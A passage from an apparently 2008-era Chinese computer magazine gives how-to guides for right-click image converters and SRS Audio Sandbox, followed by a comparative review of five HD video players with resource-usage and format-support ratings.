软件页面：http://www.xdowns.com/soft/31/55/2008/Soft_40713.html，单击“立即下载”按钮即进入下载页面：http://www.xdowns.com/soft/softdown.asp?softid=40713。下载后解压，双击“绿化.bat”即可完成安装，而卸载时只需双击“卸载.bat”即可。安装完成，选中图片后，会发现右键菜单中出现了XnView shell Extension的命令栏（如图1）。



### 2. 转图操作

XnView shell Extension的使用方法同样非常简单。只需选中要进行处理的图片，鼠标指向右键菜单中的“转换”命令，在弹出菜单中选择图片格式，即可完成图片格式转换操作，转换后的图片默认存储在当前文件夹。我们也可以使用“转换格式”命令，对转换图片的大小和存储位置进行设定。选中图片后，单击右键菜单中的“转换格式”命令，会弹出“转换格式”对话框，在对话框中我们可以为转换后的图片设置格式、大小和存储位置。在“转换格式”对话框中，设置好转换格式后单击“选项”会弹出相应的选项对话框。以BMP格式为例，会弹出如图2所示的对话框，这里我们可以选择是否使用RLE压缩。



## 二、看图转图双冠王——PicaView

利用PicaView同样可以完成右键转图操作，而且安装操作简单。相比XnView shell Extension而言，PicaView的看图功能有所增强。

### 1. 软件下载与安装

软件下载地址：http://www.onlinedown.net/soft/10517.htm。下载后双击PicaView2.0050214.exe文件即可完成安装。安装完成后选中多张图片，选择右键菜单，会发现出现了PicaView的命令栏。

如果只选中一张图片，那么右键菜单如图3。



### 2. 转图操作

首先选中需要进行格式转换的图片，然后选择右键菜单中的“转换选中的图片”命令，会弹出“格式转换”对话框。在对话框的“目标格式”选项区域选择目标图片格式。对话框的“输出”选项区域中，为转换格式后的图片选择输出文件夹，默认输出文件夹是当前文件夹。

单击“覆盖现存的”选项的下拉列表框，设置对现有图片的覆盖方法，为了防止操作失误，最好选择“询问”。在“输出”选项区，还可以勾选“删除/替换原文件”复选框。选中状态下，被转换格式的源图片将在转换完成后被删除。

如果只选中一张图片，则可以在右键菜单中的图片属性命令下拉菜单中打开“格式转换”对话框。

### 3. 其他应用

选中图片后，鼠标指向右键菜单中的PicaView命令，会弹出级联菜单，包括选项、插件设置、关于、帮助四个选项。选择不同的选项可以完成对PicaView的系统设置或者获得帮助信息。

选中单张图片后，单击右键菜单中的缩略图片，就可以打开选中的图片进行查看。

选择右键菜单中的“插件”命令，可以打开图片旋转对话框，在这里我们可以查看不同方向的缩略图片。

## 三、全能选手——ACDSee 3.1 SR1

利用前面介绍的两款软件我们已经能够轻松地完成图片格式转换操作。但美中不足的是，上面两款软件的功能都略显单薄，不具备图片处理功能。而ACDSee 3.1 SR1则在保持右键转图功能的同时弥补了这些不足。

ACDSee是诸多工具的集成体，全能图像查看程序能够快速显示高质量的图像，图像浏览器可用于高效查找图像并对其加以组织。除此之外，ACDSee还提供了几种图像处理功能，包括便利的相片增强程序。ACDSee 3.1 SR1是ACDSee系列版本里面较为优秀的一个版本。

### 1. 软件下载与安装

软件下载地址为：http://www.onlinedown.net/soft/23183.htm。下载后直接双击运行acdc31sr1.exe，按照默认安装方式即可完成安装。安装完成后选中图片并右击鼠标，在弹出的右键菜单中会出现相应的命令栏。由于ACDSee 3.1 SR1集成了PicaView 2.0汉化版，可以发现其命令栏与PicaView右键命令栏十分相似。

### 2. 转图操作

选中图片后，选择右键菜单中的批量转换命令，会弹出“格式转换”对话框。该对话框与PicaView的格式转换对话框操作完全一致。略有不同的是，ACDSee 3.1 SR1提供了更多的可选图片格式。

### 3. 其他应用

事实上，右键菜单完成图片格式转换只是ACDSee 3.1 SR1众多功能中最简单的一项。用ACDSee 3.1 SR1打开图片（安装完成后，ACDSee 3.1 SR1会自动设置为默认的图片打开程序），可以看到ACDSee 3.1 SR1的主窗口，菜单栏和工具栏提供了丰富的图片处理工具。

以图片裁切为例。单击ACDSee 3.1 SR1主窗口工具栏上的“编辑”按钮，会打开相应图片的“ACD编辑器”。

单击编辑器窗口下工具栏上的“裁切”按钮，然后拖动鼠标选中要裁切的图片区域，在选区中双击鼠标即可完成图片裁切。

了解了上述几位转图“高手”，是不是觉得再来进行图片格式转换就是小菜一碟了呢？赶快根据自己的需要请一位高手在自己的电脑中安家落户吧！

# 你的“音频指挥棒”——用SRS Audio Sandbox让普通音箱变家庭影院

随着人们对精神生活越来越高的要求，听音乐会、看音乐剧都成为人们提高自己审美的活动，其实你也可以拥有自己的音乐指挥棒来打造属于自己的音效，因为电脑功能日趋完善，人们完全可以在电脑上享受视听盛宴。SRS Audio Sandbox 1.70是适用于计算机的终极音频增强软件，它利用底层技术以驱动程序的形式安装，在任何声卡、媒体播放程序下都能提供3D音频效果。有了它，你可以随心定制针对音乐、音频以及游戏的相应音效。

下载网址：http://www.newhua.com/soft/55743.htm

## 一、让“指挥棒”就位——软件的安装

1. 第一步：安装向导。单击“Next”进入下一步。
2. 第二步：接受协议。选择I accept the term in license agreement后单击Next。
3. 第三步：选择安装途径。单击Change选择软件安装的途径（因为一般C盘为系统盘，所以一般安装在除C盘外的任何盘），然后单击Next。
4. 第四步：单击“安装”开始。你想要回顾或改变你的任一设置得单击Back，退出要单击“取消”。继续安装单击Install。
5. 第五步：安装完成。单击Cancel，完成安装程序。
6. 第六步：软件运行。单击Finish。
7. 第七步：注册。如果你拥有这款软件的激活码或者系列号，可以输入；如果没有，可以单击Try Now，现在开始试用14天；如果想购买一个激活码可以单击Buy Now。

## 二、让“指挥棒”发挥作用——软件的设置与应用

第一步：在“Content（音源）”目录菜单中，你可以根据自己的需要进行选择：Music（音乐）、movie（电影）、games（游戏）、voice（语音）。例如:音乐播放器启动后，随机播放一段音乐，然后启动SRS，打开的时候单击右边“On\Off”，然后在“Content（目录）”项中找到并选择“Music（音乐）”，这时候你就会发现音箱中的立体声和环绕声都比开始增强很多。



第二步：SRS启动后，单击右上角“SMALLER”，可以得到软件的精简模式。
下面我们以流行音乐为例来讲解SRS的应用。
“Preset（预设）”的设置，在“Preset”中有“Hip-Hop”、“歌剧”、“流行音乐”、“摇滚”、“舞曲”、“R&B”、“蓝调”、“怀旧”等多重风格可供您来选择；“Speaker（扬声器）”的设置，可以根据自己的喜好在“Speaker”里面选择一种音乐输出的方式：包括“耳机”、“立体声”、“膝上扬声器”、“环绕四声道”、“5.1声道”等选项，家居使用一般是“Stereo（立体声）”。
如果以上设置的效果你还不满意的话，可以尝试自己打造想要的音频效果，单击下面的“Advanced Controls（高级控制）”弹出控制面板。

右侧的“滑轮”可以进行左右调整，注意听音乐在调整过程中的变化，多项调整可令你满意的效果为止。调整好后单击Preset下面的绿色“保存”按钮，这个设置就会应用到General中，音效设置对下次播放同类音乐时同样有效。



第三步：影视震撼的音效、游戏音乐身临其境的音效的设置都可以仿照上述“音乐”的音效设置进行随心所欲的调整。

第四步：SRS还有一项功能，就是它可以调整你的声音，对MIC进行重新输出。方法是接上MIC，启动一款录音软件，打开伴奏后录制自己的原声唱段保存下来。然后开启SRS，Content选择Voice，将Preset设为Podcast，最后的Speaker仍然为Stereo。再重复刚才录音的过程，你会惊讶于用MIC从音箱里出来的声音居然能大好几倍，加上伴奏，效果非常具有专业水准。

第五步：如果希望恢复原来音效需要对SRS面板上方的Options按钮进行单击，选择Load default settings，点击Yes确定。

SRS Audio Sandbox 1.7.0.0汉化补丁的下载网址：http://www.newhua.com/soft/43099.htm，安装后界面就会变成中文界面，使用方法参照英文版本。

# 高清视频播放软件全接触

◆文/风之扬

伴随着奥运转播带来的视听潮流，“高清”已经成为本年度的一个流行词。和传统影片相比，高清视频无论在画面清晰度还是综合码率方面，均要远远高于前者。按照国际上的规定，高清的标准有两条：视频垂直分辨率超过720p或1080i；视频纵横比例为16：9。标准的相对提高，使得高清影片对于电脑软硬件的要求也大大提高。而一个出色的编码方案，不仅能让影片的体积更为小巧，还能大大提高播放时的画面质量。一般来说，高清视频解码主要分为两类：即“硬解”与“软解”。所谓“软解”就是通过软件让CPU进行视频解码处理；而“硬解”则是不依赖于CPU，通过专用的设备单独完成视频解码，如显卡解码。在现实生活中，硬解码设置过于复杂，入门用户设置时有一定难度。相反，随着处理器性能的不断提升，目前流行的双核处理器基本可以满足软解码的需求，使得软解码受到很多人的青睐，而且画面质量有所提高。

【小知识】 与解码相对应的是编码。在众多的高清编码之中，H.264、VC-1和MPEG2是三款最具代表性的编码方案。相对而言，H.264的压缩比最高，在相同码率情况下，它的影片画质最好，但解码时所耗费的资源也相对较多；MPEG2在压缩比方面稍逊一筹，相同的画质必须要占用更大的磁盘空间，但它对硬件的需求较低；至于VC-1，则是基于微软WMV9标准发展而来，不仅画质上能与H.264一拼高下，而且资源占用也很少。

那么，在目前主流的多媒体播放器中，哪款更适合成为高清视频的播放平台呢？下面，我们分别挑选了五款流行的视频播放软件：暴风影音V3.6、KMplayer V2.9.3.143、RealPlayer V11、QQ影音 V1.0 Beta1、ABPlayer（爱播）V2.1。在分析的过程中，主要从软件界面与操作易用性、资源占用与播放流畅度、高清解码能力与优化播放、视频格式兼容性、信息显示、字幕加载与特色功能等角度进行讲解。软件下载地址为：

| 名称 | 版本 | 下载地址 |
| :--- | :--- | :--- |
| 暴风影音 | V3.6 | http://www.baofeng.com/ |
| KMPlayer | V2.9.3.143 | http://www.kmplayer.com/ |
| RealPlayer | V11 | http://cn.real.com/ |
| QQ影音 | V1.0 Beta1 | http://qqplayer.qq.com/ |
| ABPlayer（爱播） | V2.1 | http://player.aeeboo.com/ |

为了统一起见，设置测试环境为：

| 配件 | 参数 |
| :--- | :--- |
| CPU | AMD 4600+ |
| 主板 | GA-M61PME |
| 内存 | 金邦 2G/800 |
| 硬盘 | 三星金宝160G |
| 操作系统 | Windows XP Professional |

## 一、界面操作及易用性

### 1. 暴风影音

与旧版本相比，暴风影音V3.6的菜单所占空间更小，主要的功能菜单直接以按钮的形式集成在右上方的“菜单”按钮中。软件界面采用了淡蓝色风格，整体感觉十分清爽。为了方便用户操作，软件提供了一系列的快捷按钮，直接在界面中就能方便地完成“播放/暂停”、“快进/快退”、“音量调节”等基本操作。此外，“全屏”、“截图”、“音（视）频调整”等按钮的设计，也为日常应用带来了很多方便。直接在窗口中单击右键，会弹出播放控制、界面大小及声音等选项，基本上集中了比较常用的操作。唯一感觉不太舒服的是，开始打开窗口时，在右侧出现一个网络浏览窗口。而且，软件也没有提供多样化风格的换肤功能。如图1所示。


### 2. KMPlayer

KMPlayer的默认皮肤采用了经典的黑色风格，播放边框简约而不简单，颇有些韩国特色的液晶显示屏味道。在换肤功能上，如果用户不喜欢当前风格，可以直接在画面中单击右键，在弹出的菜单中选择K-Amp5或NewKmpSkin等风格。如图2所示。


细腻的画面还只是KMPlayer众多优点中的一个。如果仔细观察可以发现，其实KMPlayer的界面设计不仅外观精致。大方，而且绝大多数的调节功能都可以通过界面上的按钮轻松搞定。单击‘CB’按钮，可以打开控制面板窗口。控制区域主要用来设置一些外观参数，例如画面比例、是否开启自动高亮、全屏扫描、屏幕位移等，这些操作比较直观，容易理解。在‘CAPTION’选项卡中，用户可以设置在播放区域选择打开的字幕，而且还可以实现一些比较特殊的功能，譬如旋转字幕等等。如图3所示。



KMPlayer的右键操作也十分方便，主要包括文件操作、屏幕控制、音视频设置、播放列表、控制面板等，基本上集成了所有重要的操作选项。

# 3. RealPlayer

RealPlayer 11是一款网上收听收看实时音频、视频和Flash的优秀工具。RealPlayer的界面设计也体现了网络特色。初次启动时，软件会按照‘浏览器首页’的方式启动，即自动启用内置的网页浏览器打开影音点播页面。播放电影视频时，只要用鼠标将相应的视频文件直接拖曳到软件窗口界面即可。在RealPlayer 11中，还提供了能够自动隐藏的控制按钮，如快进、持续快进、后退、持续后退、暂停和跳回播放等。如图4所示。


> > 用户可以通过相关设置来加快RealPlayer 11的启动速度。在RealPlayer 11中，打开‘工具’菜单中的‘首选项’对话框，在‘常规’选项卡中打开‘在启动显示上’下拉菜单，选择其中的‘现在播放’选项，单击‘确定’就可以明显加快启动速度。

相比其他软件，RealPlayer 11的广告功能明显过多。如果在无法上网的环境下，视频播放时可能会感觉更糟糕。软件界面上的功能按钮排列过于简单，缺少欣赏音视频时所独有的精致感觉。

# 4. QQ影音

QQ影音的主界面几乎简单到了极致，软件采用了深蓝的渐变风格，没有多余的按钮，也没有广告。可惜的是，软件没有提供皮肤切换功能。在QQ影音播放列表中，视频文件可以以缩略图的形式来显示。QQ影音还提供了‘迷你模式’，播放器界面在此模式下会自动隐藏起来，为用户节约了屏幕空间。切换迷你模式的快捷键为【Shift+Enter】。再加上方便的置顶功能，就可以让用户聊天看碟两不误了。如图5所示。


QQ影音的右键操作功能相对简单，但比较实用。在画面上直接点击右键，可以方便地进行文件操作、屏幕设置、声音字幕、播放控制、参数设置等。在操作过程中，QQ影音支持‘记忆上次播放位置’的断点续播功能，并支持高清加速功能，用户可以根据电脑配置情况灵活调节。

# 5. 爱播ABPlayer

ABPlayer是由北京爱宝网络科技有限公司开发的一款免费的高清视频播放器，软件界面也十分干净，除了软件本身的LOGO和软件的功能键外，看不到其他与软件无关的信息。与其他播放器略有不同的是，这款软件很巧妙地将常用功能键放在了界面的右半部分，丝毫没有过分占据软件的界面。程序的右下方的功能图标按钮依次分别是：‘打开文件’、‘打开DVD’、‘截图’、‘全屏’、‘播放列表’、‘语言’、‘字幕’。这些图标按钮十分直观，而且大小适中，既方便用户操作又不影响视觉。虽然软件界面干净，但并没有影响软件的功能性，除了一般播放类软件该有的功能外，‘爱播’还有其他贴心的功能提供，如：‘隐藏桌面’、老板键等。如图6所示。



> > 点击界面下方的‘播放列表’按钮，将其播放列表显示在界面的右方。在这里，可以进行添加、删除、上移、下移、保存播放列表等操作。如果是电视剧，建议一次性多加几个到播放列表中，然后手动排好播放顺序。

在这几款参评播放器中，‘简约而不简单’的界面是这些播放器的共同特点。在界面和操作功能上，KMPlayer和ABPlayer（爱播）并驾齐驱，界面精致而且操作功能丰富，相信这会‘俘虏’一部分高清爱好者的‘心’。暴风影音和后来居上的QQ影音表现不相上下，既秉持了软件一贯的特色，又在用户操作方便性上下足了功夫。相比之下，RealPlayer更偏重于网络功能，广告味道比较浓厚，因此在界面和操作方便性上稍处下风。总体来看，在软件界面与操作易用性上，KMPlayer和ABPlayer（爱播）的评分较高。

| 软件名称 | 界面美观度 | 操作易用性 | 总体评分 |
|----------|------------|------------|----------|
| 暴风影音 | ★★★☆☆     | ★★★☆☆     | ★★★☆☆    |
| KMPlayer | ★★★★☆     | ★★★★★     | ★★★★☆    |
| RealPlayer | ★★★☆☆     | ★★☆☆☆     | ★★☆☆☆    |
| QQ影音   | ★★★☆☆     | ★★★☆☆     | ★★★☆☆    |
| ABPlayer（爱播） | ★★★★☆     | ★★★★☆     | ★★★★☆    |

## 高清影片播放有讲究

高清影片的体积十分庞大，在数据流量上往往会比普通视频大得多。因此，资源占用和播放流畅度就是一个需要重点关注的方面。不过，对于32英寸以下的显示器来说，高清视频已达到人眼对动态视频清晰度的分辨极限，所以要想从高清视频的画质中找到瑕疵也颇不容易。测试之前也考虑到，高清视频播放时的流畅与否，与电脑的硬件配置也有十分密切的关系。实际硬件测试表明，在现有配置下，播放高清视频是相当流畅的，没有出现播放延迟、跳帧、影音不同步等问题。

为了进一步量化指标，在参数选择上，主要通过记录测试机的CPU占用率、内存占用情况等方面进行分析，并选择泰国超火爆动作大片《泰拳玛亚》作为测试对象。在测试过程中，使用这五款软件同时打开《泰拳玛亚》，大概1分钟后播放流畅时，按下【Ctrl+Alt+Del】快捷键，查看Windows任务管理器，并查看其中的进程按钮，其中，CPU及内存占用情况如图7所示。

在播放状态等模式下的内存占用情况进行对比，结果如下表所示。通过结果对比可以看出，在CPU占用方面，除ABPlayer外，其他四款软件明显偏高，均在9%以上；在内存占用方面，KMPlayer处于绝对领先的位置，属于内存消耗大户。在整体资源占用方面，ABPlayer具有很大的优势，几乎没有占用资源，处于绝对领先的位置。相比之下，KMPlayer的表现略差，出现了两次未能正常播放电影文件的问题，而且内存占用较高，CPU占用也达到了9%。由于RealPlayer的优势在于实时播放电影和电视，因此在这方面表现也相对较差。实际使用过程中，建议使用下载软件将影像文件先下载到硬盘上，再用RealPlayer播放。



| 软件名称       | 内存占用情况（K） | CPU占用（%） | 综合评分 |
|----------------|------------------|-------------|----------|
| 暴风影音       | 14928K           | 11          | ★★★☆☆    |
| KMPlayer       | 466900K          | 9           | ★★☆☆☆    |
| RealPlayer     | 24528 K          | 9           | ★★★☆☆    |
| QQ影音         | 13584K           | 10          | ★★★★☆    |
| ABPlayer（爱播）| 3340K            | 0           | ★★★★★    |

### 2. 暴风影音

在高清解码方面，暴风影音V3.6智能版最大的特点在于：能够自动判断高清类型，省去了用户很多麻烦。使用时，直接在播放窗口单击右键，或者直接从播放菜单中打开“高级选项”，在弹出的窗口中，单击“播放优化”选项卡，即可进行硬件优化和软件优化。如图8所示。

由于显卡的种类千差万别，因此，并不是每次打开硬件解码，都能收到最好的播放效果。为此，暴风影音特意开发出了一套智能判断功能。暴风影音3.6 智能高清版新增智能支持VC-1高清压缩格式的硬件加速功能，新增对所支持显卡和高清媒体文件的高清硬件加速开启提示，此外，还支持BW10、GEO、pvw2、kdm4等新媒体类型的播放。这样设计，大大降低了用户整体操作的难度。更关键的是，还能让用户轻松地在画质与流畅度之间找到一个平衡。进行设置时，首先点击主界面下方的“打开设置”按钮，勾选“视频设置”标签下的“开启硬件加速”复选框就可以了。在暴风影音中，如果开启硬件加速，便会在左下角的播放提示栏处，显示出“硬件加速开启”字样。如图9所示。此外，暴风影音在高清硬件加速播放方面有很大进步，更新了对CoreAVC解码器、hkh4解码器、Haali解码器的支持。



### 2. KMPlayer

在高清解码方面，终极解码、完美解码等软件均支持KMPlayer播放器，使得KMPlayer如众星捧月一样，可以支持更多高清视频格式。目前，在软件解码方面，比较好用的有完美解码和终极解码。这里以KMPlayer为例，重点对高清解码进行讲解。下面，以完美解码为例，测试KMPlayer的高清解码能力。



| 软件名           | 版本           | 下载地址                          |
|------------------|----------------|-----------------------------------|
| 终极解码2008     | V1.8.0629      | http://www.skycn.com/soft/39000.html |
| 完美解码PureCodec | Build 20080930 | http://www.skycn.com/soft/29561.html |

## 多媒体

## SOLUTIONS

## 小知识：完美解码和终极解码

完美解码是一款能实现流行视频、HDTV回放及编码的全能型影音解码包，它的参数设置功能十分方便，能够迅速在Media Player Classic、KMPlayer、BSPlayer等播放器之间任意切换，并支持多种影音文件。终极解码也是一款高度集成的解码包，能够实现各种流行视频音频的回放及编码功能。相比之下，由于完美解码的界面操作相对方便，播放器、渲染器、分离器、解码器等设置清晰，而且各种插件包也比终极解码更为丰富。因此，建议选择完美解码进行高清解码。

## 第1步：安装完美解码软件

KMPlayer的硬件加速略显复杂。由于KMPlayer并没有内置支持硬件解码的视频滤镜，因此，必须借助外部力量，获取到第三方的视频解码器。下载完美解码软件后，直接按“下一步”，按照系统提示即可完成安装。因为高清的格式种类较多，需要将各种格式的分离器和解码器进行选择才能够达到理想播放效果。

## 小知识：分离器的作用

分离器可以把多媒体文件中原本混合在一起的视频和音频分离出来，以形成可供解码器解码的独立视频流和音频流，不同的文件格式要选择不同的分离器。

## 第2步：设置解码模式

完美解码内置了几种方案，选定后会自动更改下面的分离器和解码器设置。对于硬解码用户来说，A卡可以选择“ATI UVD”，N卡可以选择“nVidia PureVideo”。在此基础上，我们还需要对其他选项进行微调。如图10所示。



> 在解码模式右侧，有一个“自动模式”选项。这个选项默认就是开启的，完美解码将会根据片源自动选择合适的分离器和音频解码器，一般情况下都会正常工作。如果有特殊需要或者出现解码不正常时，可以关闭自动模式，然后根据片源的封装格式手动选择分离器和音频解码器。

## 第3步：设置视频渲染器

各种渲染器的画面色彩、比例、兼容性、字幕显示模式都不尽相同，但也不会差很多。单击视频渲染器右侧的“推荐”按钮，它可以根据操作系统、显卡种类和视频编码的不同，选择一种合适的视频渲染器。不过它自动选择的渲染模式不一定是最好的，高清用户可以手动更改。在这里，视频渲染器首选“VMR9（修正黑位）”，修正黑位表示在播放超宽银幕影片时，上下黑边色差就不存在了，因而会有较好的视觉效果。

## 第4步：设置分离器和音频解码器

分离器和音频解码器一般由软件自动判定，它能够支持大多数的影片，但如果出现图像无法正常显示、硬解工作不正常，就需要关闭自动模式，按照片源的封装格式手动选择分离器；如果没有声音或者出现爆音的情况，需要换一种音频解码器试试，不过这个和视频硬解码无关，可以根据用户喜好设定。

## 第5步：设置视频解码器

视频解码器的选择，是能否开启硬解码的关键。一般MPEG2和H.264选用“CyberLink（DXVA）”；X264选用“CyberLink（DXVA）For MKV”，A卡VC-1选用“MPC HomeCinema”，N卡VC-1选用“Microsoft”等。

> 需要提醒的是，终极解码设置是全局的，会覆盖播放器本身的大部分设置，因此KMPlayer软件中要优先设置使用系统解码器，将KM内部视频和音频解码器全部取消勾选，并且分离器和视频/音频解码器均选择系统默认。

设置解码器时，也可以直接右键单击主界面，点击“高级视频管理→极速模式【禁用特殊处理】”，关闭掉KMPlayer视频滤镜。接下来，用右键单击主界面，点击“参数选项其它→参数选项”，或者直接按F2快捷键进入“参数选项”窗口。在这个窗口中，点击“滤镜控制→解码器使用→内部视频解码器”，然后在右侧界面中单击“全部取消”按钮，关掉所有内部解码器。然后，点击“外部视频解码器”，在这里进行硬件加速的设置。由于播放格式和硬件配置环境的差异性很大，用户可以灵活设置，达到自己满意的效果。

测试结果表明，有多种解码器支持的KMPlayer提供了丰富的音视频高清解码功能，在功能配置上明显要高出一筹。

## 3. RealPlayer

进行硬件方面的优化设置时，单击“工具”菜单下的“首选项”，在弹出的窗口中，打开左侧类别下的“硬件”，就会出现一个硬件设置窗口。通过设置CPU使用率，用户可以在计算机反应比较缓慢时调整回放性能，也可以选择是否启用全屏视频控制。此外，还提供了声卡兼容性、显卡兼容性的相关设置。如图11所示。



不过，RealPlayer本质上只是网络播放器，而不是专业的影音播放器，因此并不支持硬件解码。在RealPlayer中启用硬件加速，看到的画面失真现象会大大减轻。但是如果硬件不支持，就会出现花屏，图像失真会更严重，适得其反。

## 4. QQ影音

QQ影音在对高清的支持上比较流畅，它提供了一个手动配置分离器和解码器的入口，专业级的发烧友将会感到非常方便和实用，因为可以自己添加、管理分离器和解码器。在QQ影音的播放窗口中单击右键，在弹出的菜单中选择“参数设置”（也可以直接按F5快捷键），即可打开参数设置窗口。在这里，用户可以选择适用于一般配置的稳定兼容模式，可以选择适用于高配置的智能加速模式，也可以自行选择各种高清编码的分离器、视频解码器与音频解码器。但“QQ影音”有个不够人性化的地方，在默认设置下打开高清视频后，其初始窗口大小仍然是程序的原始大小，并未自动扩大到100%视频分辨率。如图12所示。



ABPlayer的中文名称是爱播高清视频播放器，它是一款专门针对追求顶级高清画质的发烧级玩家用户的高清播放器。为了追求更好的播放效果和更低的系统资源占用，用户可以利用“软操控”在播放器中针对高清视频进行优化，以提升效能，使得不同机器配置的用户都能按需获得最佳视听体验。根据网站介绍，ABPlayer具有“再现高清影片的更多画面暗部细节、黑色更加深沉、画质更细腻、高保真色彩还原”等独特优势。在ABPlayer中选择高清解码器的步骤十分简单。打开软件后，在播放界面中单击右键，在弹出的菜单中打开“属性”选项，在媒体文件属性窗口中，即可选择相应的解码器、视频编码器和音频编码器。选择完毕，单击“应用”按钮即可。如图13所示。



通过上面的分析测试可以看到，由于完美解码、终极解码等软件的支持，使得KMPlayer在高清解码配置方面功能明显高出一筹。暴风影音、QQ影音、ABPlayer(爱播)则紧随高清潮流，尽管功能简单却很实用。RealPlayer在这方面的设置则比较简单。总体评述如下：

| 软件名称 | 总体评分 |
| :--- | :---: |
| 暴风影音 | ★★★★★ |
| KMPlayer | ★★★★★ |
| RealPlayer | ★★★☆☆ |
| QQ影音 | ★★★★☆ |
| ABPlayer（爱播） | ★★★★☆ |

## 格式支持大比拼

对于普通用户来说，对常用格式的支持是选择某一款播放器的重要原因之一。从目前选择的几款播放器来看，这些软件都提供了对主流的格式支持。在主流视频格式方面，随机选择AVI、MPG、RMVB等视频格式。此外，在测试时，还将适当考虑播放器所能支持的视频格式数量，以对五款软件的视频格式支持能力有一个全面的了解。在支持的视频格式数量上，由于统计上比较困难，因此主要结合软件提示的格式数量、网站公布的支持数量，取一个加权平均值。



首先，是主流的格式支持。暴风影音、KMPlayer、RealPlayer、QQ影音等四款软件均支持AVI、MPG、RMVB等格式，而且播放十分流畅。在播放时，能够直接将影音文件拖拽到播放器中。测试过程中，仅ABPlayer（爱播）不支持直接拖拽文件播放的方式，设置取消某一类关联格式后，在播放时出现“Unregistered WinMPG Video Convert”的提示，表明该软件在格式支持的数量上还相对有限。

其次，是支持的视频格式数量。暴风影音的格式分类十分清晰，几乎囊括了目前流行的视频文件，并支持播放列表文件。据暴风影音官网宣布，暴风影音现在支持的格式是429种，这要归功于暴风影音长期以来在不可播文件上的不懈努力，加上其不可播的后台提交系统，已经解决了99%的格式支持问题。设置格式关联时，在播放界面中单击右键，在弹出的窗口中选择“高级选项”，即可进行格式设置。如图14所示。

KMPlayer通过各种插件扩展，可以支持层出不穷的新格式。它的扩展类别包括了视频、音频、图片、播放列表、字幕、CD镜像等。如图15所示。



RealPlayer 11支持播放更多更全的在线媒体视频，包括MEPG、FLV、MOV等格式。单击“工具”菜单下的“首选项”，打开内容类别下的“媒体类型”，即可手动配置媒体类型。在这里，设置了38种格式支持。如图16所示。



QQ影音全格式支持Flash、RM、MPEG、AVI、WMV、DVD等主流格式的支持。在格式种类上，QQ影音大约支持300多种格式，解决了70%的问题。如图17所示。



爱播ABPlayer的格式支持相对较少，这也在一定程度上限制了这款优秀软件的普及程度。在菜单中的“文件类型关联”里，我们可以看到软件所支持的播放类型，这里包括了对36种格式的支持。如图18所示。



由此可以看出，格式的关联性还间接地反映了软件受欢迎的程度。通过上面的测试可以看到，暴风影音和KMPlayer具有较高的支持度。单纯从数量上，暴风影音和KMPlayer支持的视频格式相对较多，但从实际的应用考虑，QQ影音、RealPlayer及ABPlayer（爱播）也均能满足用户的大部分需求。另外，用户也可以通过安装解码器，来实现对视频格式的支持。

| 软件名称 | 主流格式支持 | 支持的视频格式 | 总体评分 |
| :--- | :---: | :---: | :---: |
| 暴风影音 | ★★★★★ | ★★★★★ | ★★★★★ |
| KMPlayer | ★★★★★ | ★★★★☆ | ★★★★★ |
| RealPlayer | ★★★★★ | ★★★☆☆ | ★★★☆☆ |
| QQ影音 | ★★★★★ | ★★★☆☆ | ★★★★☆ |
| ABPlayer（爱播） | ★★☆☆☆ | ★★☆☆☆ | ★★★★☆ |

## 1. 暴风影音

暴风影音采用内置的字幕管理插件，对于符合条件的字幕可以自动载入。若需要调整，还能在播放界面中，单击“正在播放”选项卡右侧的小三角按钮，或者选择“菜单→播放→字幕设置”进行字幕的设置。此外，还可以进行字幕的高级格式设置。直接在播放窗口单击右键选择“高级选项”，在弹出的窗口中单击“字幕显示”。在这个窗口中，可以设置字体、颜色及字幕显示。此外，软件还支持手动载入字幕。如图19所示。

暴风影音的信息显示功能相对较弱，在视频窗口中右击鼠标，通过“属性”命令，可看到播放影片的相关信息。但由于这里所提供的信息过于简单，因此，只能找到“文件大小”、“媒体时长”、“分辨率”、“位置”等简单的参数。如图20所示。

在特色功能方面，暴风影音支持截屏功能，直接单击“文件→截屏”，或者按F5键，可以截取图片。在收藏功能中，能够自动保存上次退出时的记录。

## 2. KMPlayer

KMPlayer拥有非常优秀的字幕管理功能，如果视频文件存在匹配的字幕文件，则将被自动载入。用户不仅可以任意地下载和使用外挂字幕，而且还能方便地对它们进行移动和缩放。同时，软件还提供了详细的字幕设置选项，不仅能调整字幕显示位置，还能修改字幕的显示时间。此外，KMPlayer还有一个很实用的功能，那就是可以直接将外挂字幕移动到屏幕外的黑边上。设置时，在视频播放窗口点击鼠标右键，选择“字幕”菜单，将原来的字幕设置修改为“描绘到覆盖表面”一项。最后，再利用快捷键对字幕进行移动就可以了。

KMPlayer也提供了丰富的媒体信息。在播放窗口中右击鼠标，勾选“媒体信息”菜单项时，文件的详细信息立刻显示出来。在这个窗口中，不仅可以清楚地找到“视频编码”、“分辨率”、“数据码率”等常见指标，还可以轻松实现“封装模式”、“画面比例”、“码率模式”等参数的查询。如图21所示。

KMPlayer提供了许多细致入微的独特功能，包括：捕获音频、画面、视频，播放网络电视，记忆播放，控制屏幕大小位置等。以视频捕获功能为例，在视频播放过程中，右击软件界面，点击“捕获→视频：捕获”选项后进入视频捕获窗口。然后，我们再手工将播放进度条调整回原位，点击对话框中的“开始”按钮，KMPlayer便可以开始“转换”了。如图22所示。

## 3. RealPlayer

RealPlayer 11本身不具备字幕载入功能，只能通过外挂程序载入字幕。需要使用字幕时，把电影和字幕文件放到一个文件夹中，然后把文件名改成相同的即可，但字幕的后缀不要改动，如电影叫“泰拳玛亚”，字幕就叫“泰拳玛亚.srt”。在信息显示方面，单击“文件→剪辑属性→查看剪辑信息”，就可以看到相关媒体的信息。如图23所示。

在特色功能上，RealPlayer提供了丰富的网络播放功能，并支持下载在线视频到本地硬盘观看。网络功能主要包括：在线点播、网络电台、直接刻录RM/RMVB音视频等。RealPlayer本身就带有很多的广播电台和电视台的频道，并且分门别类地列出。获取在线影片的真实在线点播地址后，运行RealPlayer 11，在“文件”菜单中选择“打开”选项，将刚才获取的影片点播地址粘贴到“打开”对话框中，单击“确定”就可以即时播放在线影片了。

测试过程中，RealPlayer在截图上出现了一些问题，通过SnagIT 9.0等工具无法截取图像。

## 4. QQ影音

QQ影音提供了傻瓜式操作的字幕调节功能。在字幕加载功能方面，QQ影音支持拖拽加载、支持压缩包字幕文件手动加载，在播放窗口单击右键，在弹出的菜单中选择“媒体信息”，即可看到文件类型、文件大小、媒体时长、分辨率、创建时间、文件路径等信息。如图24所示。

除了截屏等常用功能，QQ影音还继承了QQ的一些特点，如隐私保护。QQ影音在主面板的左下角用小脚印突出显示当前的隐私保护状态，通过简单菜单就可以很方便地清除播放痕迹。

## 5. 爱播ABPlayer

